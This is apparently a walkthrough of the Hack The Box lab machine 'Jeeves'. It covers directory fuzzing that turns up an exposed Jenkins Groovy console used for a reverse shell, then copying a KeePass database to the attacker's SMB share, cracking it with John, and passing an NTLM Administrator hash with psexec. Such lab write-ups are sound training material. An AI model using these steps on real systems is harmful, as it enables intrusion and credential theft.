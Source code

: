 # Enumeration:
![nmap_scan](images/jeeves/nmap_scan.png) </br> </br>
**Initial Shell:** </br>
Navigating to the webserver we get this: </br>
![website_main_page](images/jeeves/website_main_page.png) </br>
When trying to submit anything, we get this: </br>
![website_error_message](images/jeeves/website_error_message.png) </br>
I tried running a fuzzing scan using gobuster, but I didn't find anything. </br>
I then navigated to the page on port 50000, and saw an error message: </br>
![http_error_msg](images/jeeves/http_error_msg.png) </br>
Tried running a fuzzing scan with gobuster again: </br>
```bash
root@kali# gobuster -u http://10.10.10.63:50000/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,php,html

Gobuster v1.4.1              OJ Reeves (@TheColonial)
=====================================================
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://10.10.10.63:50000/
[+] Threads      : 10
[+] Wordlist     : /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes : 200,204,301,302,307
[+] Extensions   : .txt,.php,.html
=====================================================
/askjeeves (Status: 302)
```
</br>

Browsing to the ```askjeeves``` directory, I saw this page: </br>
![askjenkins_mainpage](images/jeeves/askjenkins_mainpage.png) </br> </br>
Browsing through the system, I found a way to execute arbitrary code on the webserver: </br>
I went to the ```manage jenkins``` tab, and saw this: </br>
![manage_jenkins](images/jeeves/manage_jenkins.png) </br>
This is a groovy script console, to exploit it I used a groovy reverse shell I found on [GitHub](https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76) </br>
Opened a netcat listener on another terminal, and it worked. </br> </br>
**Proof Of Screenshot:** </br>
![initial_shell](images/jeeves/initial_shell.png) </br> </br>
# Privilege Escalation: 

I solved it in two ways, one way is by exploiting ```Juicy Potato``` and the second way is enumerating and </br>
finding ```kohsuke``` user credentials in the keypass password manager. </br>
I will show the second way since I believe that was the intentional way to solve this machine. </br>
After getting an initial shell , I did a bit of enumeration on ```kohsuke``` user directories </br> 
(The user I got access to), and I found this file in the Documents directory: </br>
![ceh_file](images/jeeves/ceh_file.png) </br>
A ```KDBX``` file is a password manager for Windows. It stores an encrypted database of passwords that can be
viewed only using a master password set by the user. </br>
I copied the file to my Kali Machine with this command: ```copy CEH.kdbx \\10.10.14.21\kali``` </br>
I used ```keepass2john``` to convert it into a hash that we could crack later: </br>
![keepass2john](images/jeeves/keepass2john.png) </br>
I saved it into a file called hash, and cracked it using john the ripper: </br>
```john hash --wordlist=/usr/share/wordlists/rockyou.txt``` </br>
This is the result I got: </br>
![hash_crack](images/jeeves/hash_crack.png) </br>
I Installed the password manager keepassx to open the file: ```sudo apt-get install keepassx``` </br>
Opened the file: </br>
```Database -> Open database -> CEH.kdbx -> Enter moonshine1 as the password.``` </br>
![keepassx_file_opened](images/jeeves/keepassx_file_opened.png) </br>
The only password that stood out was the first one (Backup stuff), it contained a hash that looked like a NTLM hash: </br>
```aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00``` </br>
I tried using 'pass the hash' and log in as an administrator with psexec: </br>
```psexec.py Administrator@10.10.10.63 -hashes``` </br>
```aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00``` </br> </br>
**Proof Of Screenshot:** </br>
![privesc_shell](images/jeeves/privesc_shell.png)